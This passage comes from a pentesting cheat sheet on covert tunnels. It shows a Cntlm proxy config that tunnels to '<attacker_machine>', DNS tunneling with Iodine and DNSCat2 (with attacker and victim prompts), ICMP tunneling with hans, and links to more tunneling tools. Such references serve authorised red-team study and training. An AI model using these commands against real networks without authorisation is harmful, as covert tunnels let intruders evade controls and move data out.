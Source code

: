 ```
text
CopyEdit
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attacker_machine>:443

```

> Cntlm official page
> 

---

## **Other Special Tunnels**

### DNS Tunneling

- **Iodine (root required):**

```bash
bash
CopyEdit
iodined -f -c -P password 1.1.1.1 domain.com #Server
iodine -f -P password domain.com -r           #Client

```

- **DNSCat2 (no root needed):**

```bash
bash
CopyEdit
attacker> ruby dnscat2.rb domain.com
victim> ./dnscat2 domain.com

```

---

### ICMP Tunneling (hans/hanstunnel)

- Root access needed to create tun interfaces.

```bash
bash
CopyEdit
hans -v -f -s 1.1.1.1 -p password
hans -f -c <server_ip> -p password -v

```

---

## **Other Tools to Explore**

- [Secure Socket Funneling (SSF)](https://github.com/securesocketfunneling/ssf)
- [3proxy - Tiny proxy server](https://github.com/z3APA3A/3proxy)
- [gtunnel - Tunnels in Go](https://github.com/hotnops/gtunnel)
